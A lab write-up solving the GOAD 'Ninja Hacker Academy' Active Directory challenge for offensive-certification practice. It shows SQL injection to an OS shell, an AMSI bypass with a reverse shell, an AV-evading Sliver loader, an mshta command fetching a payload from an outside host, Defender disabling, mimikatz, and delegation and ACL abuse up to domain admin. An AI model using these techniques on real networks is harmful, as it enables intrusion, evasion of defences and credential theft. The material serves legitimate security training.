







# Introduction

While preparing for OSEP and CRTO, I have often helped others in the Discord servers. Giving advise on how to proceed with the course materials or how to tackle a certain challenge lab. One of the things I suggest a lot to people is to take a look at GOAD; which stands for Game of Active Directory, GOAD provides an Active Directory environment were you can test and execute techniques. At the end of the OSEP review, I also mentioned this in one of the lessons learned. The GOAD environments are build as LAB environments providing a huge amount of different ways and attack paths that you can practise. GOAD path's and technique's are very well documented on the Github so I will not dive into them here. GOAD will ultimately provide you with more understanding of the different techniques but also more confidence in working with Active Directory.

Today I'm going to dive into one GOAD specific lab. 

# Game of Active Directory

> GOAD is a pentest active directory LAB project. The purpose of this lab is to give pentesters a vulnerable Active directory environment ready to use to practice usual attack techniques.

GOAD has been written and released by [@M4yFly](https://x.com/M4yFly) and is freely available on the Github repository of [Orange CyberDefence](https://github.com/Orange-Cyberdefense/GOAD). GOAD consists of multiple environments you can run depending on your desire.

- [GOAD](https://github.com/Orange-Cyberdefense/GOAD/blob/main/ad/GOAD/README.md) (5 vms, 2 forests, 3 domains (full GOAD lab))
- [GOAD-Light](https://github.com/Orange-Cyberdefense/GOAD/blob/main/ad/GOAD-Light/README.md) (3 vms, 1 forest, 2 domains (smaller GOAD lab for those with a smaller pc))
- [MINILAB](https://github.com/Orange-Cyberdefense/GOAD/blob/main/ad/MINILAB/README.md) (2 vms, 1 forest, 1 domain (basic lab with one DC (windows server 2019) and one Workstation (windows 10)))
- [SCCM](https://github.com/Orange-Cyberdefense/GOAD/blob/main/ad/SCCM/README.md) (4 vms, 1 forest, 1 domain, with microsoft configuration manager installed)


And then there is the NHA otherwise know as "Ninja Hacker Academy" this environment is also known as a "Challenge Lab" which means, it has no diagrams and you have to figure it out on your own. Let's enrol and see if we can complete the Academy get our Ninja Hacker title. 

{: width="256" height="256" }

- [NHA](https://github.com/Orange-Cyberdefense/GOAD/blob/main/ad/NHA/README.md) (5 vms and 2 domains)

The only details you get are the following: 

> - Objective: You should find your way in to get domain admin on the 2 domains (academy.ninja.lan and ninja.hack)
>
> - Starting point is on srv01 : `x.x.x.21`
>
> - Flags are disposed on each machine, try to grab all. Be careful all the machines are up to date with defender enabled.


With a single hint provided which is:

> `No bruteforce, if not in rockyou do not waste your time and your cpu/gpu cycle.`

and with that let's start with tackling this challenge. 

# The Way of the Ninja  

I'll start with a quick scan, for this I'm going to use [NetExec](https://www.netexec.wiki/) and while being particulair usefull to find Windows computers in a subnet, this additionally gives us details on which machines belongs to which of the two domains. 


Given on the information provided about this challenge lab, I already know there are 5 VM's and that there are 2 domains, they even gave us the domain names already `academy.ninja.lan` and `ninja.hack`. Since I'm running the NHA range (GOAD v3-BETA) in my Ludus server the ip range is different then normal deployment with virtualbox or vmware. 

> ***NOTICE**: According to the lab info the entry point should be on `SRV01` at `.21` except I see this is not the case this could be a mismatch in information provided or because I'm running the `v3-BETA`. However I do know there will be only one entry point to this lab.*

Domain|IP|hostname
--|--|--
ninja.hack|`10.3.10.30`|DC-VIL
academy.ninja.lan|`10.3.10.31`|DC-AC
academy.ninja.lan|`10.3.10.32`|WEB
academy.ninja.lan|`10.3.10.33`|SQL
academy.ninja.lan|`10.3.10.34`|SHARE

Based on the output, I can already determine that all machines belong to the known domains and that there are no linux machines in this challenge lab. I can also distill; from the above information, that the entry point for this challenge lies on `WEB` at the `.32` ip. 

> ***NOTICE**: It's important to know that in a normal challenge lab you would need to find out the entry point to a specific environment, this usually requires additional scanning with either nmap or running a suite of tools like [autorecon-ng](https://github.com/Tib3rius/AutoRecon). For this environment our entrypoint was already given at the start of the challenge so I'll focus on that.*

Let's start by visiting the Website and see what type of information is on there.


The website has a few links in the top navigation, let's go through them one by one to see if I can gather more information about this Academy.


The `List of students` shows us a simple search box where I can check the student names and also have a dropdown box to order these results.


On the about page I get the confirmation and hint that I should use the search box to find student of the Academy. 


The last option is the Contact options this provides us with two additional names, their email address. In this case it clearly shows that `Frank` also has a email address associated with the `ninja.hack` domain and the `academy.ninja.lan` domain. 

> ***NOTICE**: I might have found a typo here since the contact details of Olivia contain a different domain. Could there be a secret 3rd domain in play called `ninja.hacker` ?*

I will focus on the searchbox since there are some breadcrumbs to that I can follow , There are a few options/routes I can take with this box, usually starting with something like checking for an `Local File Inclusion`, `Command Injection` or `SQLi`. All three do not really seem to work from the searchbox itself.


We could see what happens when we use the input field of the search box and we can see there that the URI inserts our command in the correct string, it does not give any output or error when using that field. The only thing that shows is no matches on the word.


It appears this field is not susceptible to an `Local File Inclusion`, `Command Injection` or even `SQLi`, in the source and URI you can find another field `orderBy`.


In the source code these have some fixed value's in a dropdown box. However when look at the URI changes we see that option is just given in the URI, we could also test this field for the usual three options, but it seems using anything else then the 3 given values result in an error


From the initial scan we know there is a SQL server in play, so I assume the site uses SQL in one way or another, I also know the searchfield itself does not contain any `SQLi`. When trying to fit all these breadcrumbs together I can predict a bit on what the query the website uses and we already know the three predefined options, what happens if we append the following to the URI

```sql
 WAITFOR DELAY '0:0:5'--
```


Which doesn't gives us an error and the website "loads" for 5 seconds, which means there is some SQL manipulation possible here. 

> ***NOTICE**: We could do the manipulations by hand, however it's more efficient to just use a tool called [SQLMap](https://github.com/sqlmapproject/sqlmap) for this. SQLMap automates some of these checks.* 

Running SQLmap with a simple command like `sqlmap -u 'http://10.3.10.32/Students?SearchString=Lee&orderBy=Firstname'` already provides us with valuable information.


I can see that SQLmap has identified the the `Orderby` field is vulnerable to three different types of SQLi.

- Boolean-based Blind - Parameter replace
- Microsoft SQL Server/Sybbase stacked Queries
- Microsoft SQL Server/Sybbase time-based Blind

I can also try to get a shell with SQLMap by using the following command:

```shell
sqlmap -u 'http://10.3.10.32/Students?SearchString=Lee&orderBy=Firstname' --os-shell --batch --threads 10
```


Now that I got the response from the SQL server that, you can see that the user the SQL server runs as is `NT Authority\Network Service`. Since I have a `os-shell` running in SQLMap, I need to get this to a more workable solution. The delay in output from SQLMap is really slow, which makes it annoying especially if a command fails and a multi line error is returned.

So we have prepared a script that contains our AMSI bypass called `bypass.txt` in this script we run the bypass and immediately retrieve and execute a [simple TCP One Liner](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) to get us a more functional shell to our listener.




and this gives us the initial foothold into the Academy. Let's see if the machione can be added to our SliverC2. It was already given that the LAB runs a up to date machine with defender enabled. To bypass this I need to write our own custom shellcode loader.

For this "SimpleLoader" I just have a few requirements to being able to bypass the (currently known) active security controls. 

> ***NOTICE**: Writing custom loaders for tasks, often suffer for the "Shiny New Technique" syndrome (and yes, I made that up). It's good practise to realise that you use the right functions and techniques for the task at hand, this will avoid creating an overly complicated loader and avoid burning technique's you can use lateron or trigger alerts on combinations of technique's. It's good to summarise the controls that you know and which possible controls could be active that you didn't see yet. I currently have seen that the system is up to date and that it has Microsoft Defender active, other controls are not seen yet.*

The loader I'm going to write will have the following functions:

- RC4 Encryption
- Simple sandbox evasion
- Some (very) basic code Obfuscation
- EarlyBird APC Technique

The complete loader code and encryption script can be found at my [github](https://github.com/ShadowBumble/SimpleLoader). 

Now that the loader has been taken care of, let's start setting up our SliverC2 environment.
I will start with generating the shellcode that I'm going to use with the following command:

```shell
sliver > generate -f shellcode --mtls 198.51.100.2 -s /tmp/buf.bin -G --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 1s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /tmp/buf.bin
```

after that it's as simple as just start the Listener.

```shell
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #5

sliver >
```

This will take care of the SliverC2 side of things, however the shellcode is not ready for the loader yet. The shellcode first needs to be encrypted. 

```shell
python3 ~/rc4.py "amsi.dll" buf.bin
Written buf.bin.enc
```

This encrypts the shellcode with our key called `amsi.dll` and outputs the file as `buf.bin.ec`. Then I'm going to rename the `buf.bin.enc` file to `buf` and the reason for this is when using the `xxd` command to format our `buf` file to useable `C` code it takes the filename and stores that as the `unsigned char` name. Which saves opening the file and manually editting. (Alternatively sed to the rescue `sed -i 's/<oldname>/buf/g' /tmp/shellcode.c`)

```c
$head shellcode.c     

unsigned char buf[] = {
  0x20, 0xfa, 0x22, 0xb5, 0xf0, 0x9c, 0x75, 0xd3, 0x0f, 0x77, 0xf2, 0x88,
  0xcc, 0xc4, 0xf5, 0x18, 0x8e, 0x2c, 0xe2, 0x42, 0xa9, 0x89, 0xa0, 0x67,
  0x82, 0xbe, 0xb0, 0xb0, 0xca, 0x14, 0x21, 0xa3, 0x37, 0xad, 0xf4, 0x51,
  0x26, 0x7b, 0xf6, 0xb8, 0x2e, 0x2b, 0x0e, 0xf8, 0x81, 0xf7, 0xc3, 0xd3,
  0xbe, 0xa4, 0xc5, 0x36, 0x40, 0x8c, 0xe1, 0x61, 0xf4, 0xfe, 0x01, 0x06,
  0xd2, 0xf2, 0x10, 0xeb, 0xdc, 0xe4, 0xc9, 0xf1, 0xfa, 0xf7, 0xcd, 0x74,
  0xcb, 0xab, 0x6f, 0xf7, 0x25, 0x78, 0x89, 0xc5, 0x23, 0x7c, 0x5a, 0x68,
  0xd3, 0xbc, 0x7d, 0x3d, 0x37, 0x49, 0x22, 0xba, 0x4f, 0x45, 0x81, 0xa1,
  0xb5, 0x08, 0x2e, 0xd7, 0x13, 0xd5, 0xf6, 0x71, 0x48, 0xed, 0x87, 0x32,
```

```c
$ tail shellcode.c

  0x69, 0xf4, 0xd1, 0x2d, 0x13, 0xc1, 0xe5, 0x19, 0x9a, 0x50, 0xd0, 0x77,
  0xb6, 0x1b, 0x68, 0x69, 0xcb, 0xfc, 0x7d, 0x69, 0xcc, 0x58, 0x9f, 0x78,
  0x88, 0xfc, 0x93, 0xe0, 0xe7, 0x05, 0xdc, 0xf5, 0xd3, 0x84, 0x89, 0x76,
  0x30, 0xd2, 0x3d, 0x46, 0xb6, 0xfe, 0x70, 0xd6, 0xac, 0x87, 0x3b, 0xa7,
  0xea, 0xf9, 0xbd, 0x46, 0xd1, 0xf2, 0x1a, 0x2e, 0x56, 0xa6, 0x04, 0xf4,
  0x45, 0xcc, 0xd7, 0x6f, 0x96, 0x13, 0xce, 0xdd, 0xdf, 0xdc, 0x44, 0x7a,
  0xed, 0x0a, 0xa2, 0xe2, 0xb1, 0x17, 0xcf, 0x57, 0x23, 0xcf, 0x21, 0x3b,
  0x07, 0x46, 0x0b, 0x72
};
unsigned int buf_len = 10013404;
```

Which makes the generated `shellcode.c` perfect to call in our loader with the `external unsigned char` & `external unsigned int` statements. 
Now let's transfer our malicous executable to the machine with the initial foothold and execute it.


and after the simple evasion function did it's thing our C2 is receiving it's first session !



Interestingly now that the C2 has received the session is that the C2 received the session from the `sql` host and not the `web` machines were the loader was executed. In the root of the file system ( C:\ ) the first flag.txt can be found.



Now that we have a good and proper session we can leverage the C2 to poke around a bit, and the first thing I always do is checking what privileges I have.


Interestingly the account from which we have the session has the `SeImpersonatePrivilege` and this basically gives us a Privilege Escalation possibility right of the bat. To execute this Privilege Escalation we are going to use a tool called ["Potato"](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) there are different versions of this so pick the one appropiate to your environment. I then could upload the tool to the `C:\tmp\` folder were the SimpleLoader is also still available but I won't.

The best way todo this is from the C2, that way I can stay in memory as much a possible and avoid defender messing things up. 


In the screenshot you can see that before even seeing the output, the session was already sent back as `NT AUTHORITY\SYSTEM` basically owning the system and because we own the system we are going to make it easier on ourselves by nuking the AV.

> ***NOTICE**: In mature coperate organisations turning off the AV like this is definitely an alert raised in their SOC. I'll be doing it more  often while progressing through the lab, to make my life a bit easier while doing this ( and to avoid to have to write custom loaders everytime )*


Then there is only one step left to comeplete the SQL machine of the "Ninja Hacker Academy" and that is grabbing the flag.


Now that system is ours we can start gathering intelligence of the environment. Let's see what this educational facility is hiding from me. We already disabled the AV which makes it possible to dump the hashes.


Not much to be found in terms of hashes or other information. Hashdump is always a bit of iffy in my opinion, and mimikatz also doesn't show any particular interesting hashes other then the machine account.

Looking at the environment it doesn't seem that there is a domain user logged on, I'll gather some more information on the domain and try to find an attack path. To find such a attack path I'll run the Bloodhound collector called `SharpHound`, this tools collects a data set that we can import in the `Bloodhound` tool. Bloodhound can then create a graphical view on our environment making it easier to find paths. Next to that I am going to see if and what domain users are in the domain.

The usual things I always look at in Bloodhound are, which computers are there in the domain, which users are there in the domain and last be not least who is the Domain Admin.


Now that we have a basic layout, we can start working on getting a foothold in the rest of the domain. Before diving into the graphical world of Bloodhound we should first enumerate the SQL machine first, maybe there are some juicy files anywere containing valuable information.

You can get the cannon's out and just start blindly searching the whole system with commands like

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.doc -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.xls -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.xlsx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.ps1 -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.ini -File -Recurse -ErrorAction SilentlyContinue
```

or use specific searches to retrieve a specific file from the system like

```powershell
Get-ChildItem -Path C:\ -Include consolehost_history.txt -File -Recurse -ErrorAction SilentlyContinue
```

but that is noisy and time consuming. Let's start with some good old browsing through the root of the filesystem and the Program Files folders.
As you can see in the below screenshot there are a few things to notice in the root files system, some come from autoprovisioning but it's not your usual view.


My interest particulairly goes first to the user directories and see if anything juicy is there. Unfortunately there is not much to be of interest besides the system flag on the desktop.


We used the `C:\tmp` a few times so we know nothing is interesting in that folder, the `C:\Tools` contains the `Psexec64.exe` tool from the `sysinternals` suite. Which might indicate that we need to leverage that or that that is being used by the administrator of the machine.

The `C:\setup` folder contains some appearntly interesting information, it contains the mssql folder and a database. 


Now am I a bit familiar with the way how a SQL server is setup and I know the `.ini` file can contain sensitive and good information. So let's download the database so we can browse that later on and take a look at the `.ini` file.


In the output of the C2 we can see that the `.ini` file indeed contains a password `sa_P@ssw0rd!N1nJ4hackaDemy` which is the password to the `sa` account of the running SQL server. I have inspected the database but there was not much of interest there. Maybe the password without the `sa_` is reused somewhere so I'll  keep that in the back of my head.

It does not seem if there is anything of interest on the local file system anymore that could point to our next target, so it will be time to check out Bloodhound for hints. Before diving in specifics I always mark my target that we have system on as `Owned` in Bloodhound this makes it easier to see. 


Above we have a screenshot of the `Domain Computers` layout in Bloodhound. It shows various containers to what these machines belong to. For example `computers@academy.ninja.lan` contains the `SQL`and `WEB` machines. The `share_services@academy.ninja.lan` contains the `SHARE` machine and finally the `domain.controllers@academy.ninja.lan` which contains `DC-AD`. 

Upon closer inspection of the container `computers@academy.ninja.lan` we notice that the `SQL` machine has `GenericAll` rights on the the group. 


This looks like my first step into the rest of the domain, however it is not a `GenericAll` to the rest of the machines in the group. Which is an important step to realise, since that also makes abusing this a bit tricky. The thing here is that I have `GenericAll` to the container but the container doesn't have `GenericAll` over the `WEB` machine or that `SQL` has a direct `GenericAll` to `WEB`


There are lots of articles around on how to use and abuse DACL in an AD environment, however they usually all focus on a User/Computer level. While bloodhound gives some suggestions on how this is abused it requires a tool called `dacledit` which is part of the `impacket` toolsuite. In this case we must find a way how we can manipulate the container to sent the rights also to the `WEB` machine. Granting rights can be done in various ways and quite a few are decribed here at the website of the [Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/). 

The hacker recipes Website actually also tells us about another tool that can also achieve the same thing called [BloodyAD](https://github.com/CravateRouge/autobloody) but I never used that one so I will be sticking with `impacket-dacledit`. First let's start by adding the DNS names of the environment to our `/etc/hosts` file.

```shell
#Adding NHA Lab
10.3.10.30 dc-vil.ninja.hack dc-vil
10.3.10.31 dc-ac.academy.ninja.lan dc-ac
10.3.10.32 web.academy.ninja.lan web
10.3.10.33 sql.academy.ninja.lan sql
10.3.10.34 share.academy.ninja.lan share
```

and now we can try to edit the DACL of the domain.

```shell
impacket-dacledit -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :64282bb1ee9dac25123ca1295d5e1337 -inheritance -dc-ip 10.3.10.31

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20241130-170414.bak
[*] DACL modified successfully!
```

It seems the command ran succesfully, let's update our Bloodhound data and see if it indeed updated the inheritance. 


The updated Bloodhound view now shows that that we have `GenericAll` rights between the `SQL` machine and the `WEB` machine, which basically means I can now do a [Resource Based Constrained Delegation (RCBD)](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) from `SQL` to `WEB`. Now that I have an attack path from `SQL` to `WEB` let's execute that attack.


> ***NOTICE**: This is usually done when the MachineAccountQuota domain-level attribute is set higher than 0 (set to 10 by default), allowing for standard domain users to create and join machine accounts. Even if the MachineAccountQuota is 0, the utility can still be used if the credentials used match a powerful enough account (e.g. domain administrator). Since we have `GenericAll` rights now on the machine, I'll skip this step.*

The [impacket-addcomputer](https://github.com/fortra/impacket) can be to used to add a new machine account in the Active Directory. 


Now that the machine account is added we need to assign `delegate-from` rights, so that we can use our newly added machine to manipulate the `WEB` machine.



Now that we have added a new machine and give permissions to this new machine, we can forge a ticket to the `WEB` target as Administrator.

> ***NOTICE**: As you already see above the [impacket](https://github.com/fortra/impacket) suite is a valuable source of tools that is of high value, I cannot recommend enough to everyone the benefits of knowing all the tools in this suite as well as their behaviour. The toolset can also be adjusted to be OPSEC safe.*

Let's continue with another Impacket tool called getST (Get Service Ticket). A service ticket is used to access a specific network service or resource. The user presents the service ticket to the service or resource, which then uses the ticket to authenticate the user and grant access to the requested resource. When working with Service Tickets I never forget a table that was in RastaMouse's [Red Team Operator](https://training.zeropointsecurity.co.uk/courses/red-team-ops) course, that mapped a technique to a Service Ticket so you could plan a bit ahead.

Technique|Required Service Ticket
--|--
psexec|HOST & CIFS
winrm|HOST & HTTP
dcsync(DC Only)|LDAP

Let's request such a ticket and use it gain access to the `WEB` machine.


While you can see some warnings regarding soon to be depreciated functions but we can ignore those, we do see that the command executed successfully and gave us the `Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache` ticket. Let's set this ticket and see if we can use it to access the `WEB` machine.


The above command sets the ticket in our current shell session and then we can leverage `impacket-smbexec` to gain a shell on `WEB`.

> ***NOTICE**: `SMBEXEC` is a more limited version of `PSEXEC`, the reason why we are using `SMBEXEC` instead of `PSEXEC` is because it does not require dropping a binary on disk and starting that as service. This means it's also harder for defender to detect since we haven't disabled defender yet on the `WEB` machine.*


As soon as we have the shell, we are going to disable Defender which gives us the room to continue on this machine.


Since we already turned Defender off, we can get another shell again.


> ***NOTICE**: For the readers that are paying attention the shell that just popped up if a "HTTPS" shell and not our previously used "SimpleLoader". This is because I want to highlight an awesome article written by [Youcef S Kelouz]( https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) called "Writing a SliverC2 Powershell stager with Shellcode compression and AES encryption".*

The command executed to get this shell is:

```shell
mshta.exe http://198.51.100.2/evil.hta
```

Since we also got `SYSTEM` on this machine, let's grab the flag. 


Let's also update the Bloodhound data that is collected and mark the system as "Owned" in Bloodhound. I often refresh the data in Bloodhound, especially after changes are being made. This ensures that newly open paths are in the database and that we use the most recent data set, Active Directories are often refreshed during engagements and sometimes low hanging fruit randomly appears.

Since we now have access to a new machine our whole enumeration begins from start again for this machine. Let's start with dumping the hashes.
We still have an active administrator ticket in our session so let's make use of that with yet another Impacket tool called `secretsdump`. This tools does similar things as the SliverC2 `hashdump` command and the `mimikatz` command. The biggest benefit is it can be done without actually being on the system as long as you have a valid `user/pass`, `user/hash` or `ticket` with enough rights.



As you can see in the output we know have to local administrator hash also, from the SilverC2 we can always invoke mimikatz directly like this

```shell
mimikatz "token::elevate" "sekurlsa::logonpassword"
```

basically turning mimikatz into a oneliner you can quickly run in memory




I have omitted most of the output of mimikatz but the above hash is our first domain user we recover. So let's turn to our Bloodhound data and see what the Frank user has access too. 


We can see that Frank is part of a few groups on the domain, has local administrator rights on the `SQL` and `WEB` machines. Maybe more interesting is that Frank also has `Constrained Delegation Rights` to the `share.academy.ninja.lan ` machine.


This opens up a path to our next target `SHARE`. Let's mark the user Frank as `Owned` and check if there is already a path visible from Frank to the Domain Controller `DC-AC`.


and there is! Bloodhound shows me now that there is a path consisting of multiple steps from Frank to the `DC-AC`. Let's try to get a CIFS ticket again 

```shell
$ impacket-getST -spn 'cifs/share.academy.ninja.lan' -impersonate Administrator -dc-ip 'dc-ac.academy.ninja.lan' "academy.ninja.lan"/"frank" -hashes :d4fad93561dee253398d5891e991a6fb                     
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user frank or initial TGT not forwardable
```

Unfortunately it's not THAT simple; and to be fair I would have been a little disapointed if it was. However like in a bunch of previous steps `Impacket` to the rescue with the tool `findDelegation`. Let's see what can be delegated.


This is interesting just like the `GenericAll` on the container, I have not yet this specific `Constrained Delegation with Protocol Transition` on the `eventlog/share`. However this works basically the same as any Constrained Delegation we can leverage the `msdsspn` value; which in this case is the `eventlog/share` and specify a `altservice` service. So let's try to create a ticket but this time with CIFS as `altservice`. 


and now I should be able to get access to the `share` machine as Administrator.


Now that I've a shell let's say goodbye to defender and load the machine in our SliverC2


and in return I see the session popping up in our SliverC2


Now the 3rd machine is added to the SliverC2 with `NT Authority\SYSTEM` and it feels like I'm close to completing the path to the `DC-AC` that I saw in Bloodhound from the user Frank.

As usualy let's grab the 4th Flag also


Let's continue with our path to `DC-AC`.


As you can see I'm currently at the `SHARE` machine and I also have marked that as `Owned` the next step is to read the `GMSA Password` and before I can do that we need to dump all hashes of the `SHARE` machine.


While dumping the hashes from `SHARE` to get the machine account hash, I also encounter the password of Frank's account. Which is `Il0ve!R4men_<3` and I fully agree since I Love Ramen too. 

Now that the machoine hash is uncovered it can be used to read the `GMSA password` according to the Bloodhound `OS Abuse` directives, Various tools can help with this and Bloodhound suggests a tool called [gMSADumper](https://github.com/micahvandeusen/gMSADumper) or in Windows I could use the [gSMAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) but this means we need to compile it ourselves. Which I did so I can run it from the C2.


Now that I have the GMSA hash, I'm again 1 step closer to the Domain Admin on our Path. I now should be able to leverage the `ForceChangePassword` on the `Backup` account. 

Which I can do from our attacking machine with the following command 


to verify if everything went according to plan. I will use `NXC` again


And it shows that I can access the DC. However to become Domain Admin I need to do another step.


I can see that the BACKUP has `WriteOwner` rights to quite some groups and the `localuser` and `Administrator` of the `DC-AC` machine. This means we can add ourselves as owner to that group.


Now that I've been added as Owner of the Domain Admin group let's update our rights to `FullControl` 


The final step before I can move to the DC, is to simply add ourselves to the `Domain Admin` group.


let's disable Defender again and then add the Domain Controller to SliverC2.


The session is being added to our SliverC2


and last but not least, let's grab the final flag for this domain.


Now that the Academy promoted us to "Sensei" it also gives me the task to root the second domain, the `Ninja.Hack" domain. So let's update bloodhound with all data from this domain controller. Then I can dive into the trusts between the two domains.

Now that I've updated Bloodhound once more I can also see our previous steps reflected when creating a path from the `Backup` user to `DC-AC`. Moved the other links out of the way to show a clear path.


Now lets find a way on how we can hop from `DC-AC` to `DC-VIL`


As you can see in BloodHound there is a bidirectional trust between to two domains, however I got no information regarding the `Ninja.Hack` Domain because our Bloodhound dataset only collected data regarding the `academy.ninja.lan` domain.

This can be solved by running SharpHound with the `-d` flag where I can specify the domain and within the context of a domain admin. This means that with the backup user we should be able to read more data from the `Ninja.Hack` domain.


The command ran succesfully and the dataset can now be refreshed with the updated Bloodhound data to incorporate the second domain's data. Also let's dump all the hashes in the domain with `impacket-secretsdump`. I have omitted the output here to avoid a very long list of hashes, but remember all the way at the start of this post were we did the website enumeration ?


Those two clearly have accounts in boths domains since they have email adresses with them associated, and guess who came up during the dump of hashes from the domain controller ? Exactly, hashes from both Frank as Olivia are "recovered". Since both their first and last name are used for the `ninja.hack` domain. I'll be following that format to see if that gives me access.

Let's check those against the last remaning machine `DC-VIL`


and just like that I now have an initial foothold in the Ninja Hack Domain. Let's return to our Bloodhound Dataset and see if there is already a known path from the Olivia user to Domain Admin.


And ofcourse there is; didn't expect it to be this in my face.

Let's recap this path for a bit. I can see that Olivia has `WriteDACL` rights  on the user `Rachel Pilips`. Abusing these rights give me access to the `Rachel` user which is a member of the legendary `Sanin` (Can't mis the Naruto references when my own avatar is Jiraya). The `Sanin` group has `GenericAll` rights to the `Jonin` group, and the `Jonin` can preform a `ADCS ESC4` technique to get to domain admin.

Let's get to it.

Since I've rights to edit the `DACL` on the Rachel user, I can relatively simple change that into `fullcontrol` enabling me to change the password.


Now that I have adjusted the rights I can just force a password change to the `Rachel` user which we can immediately confirm by testing.



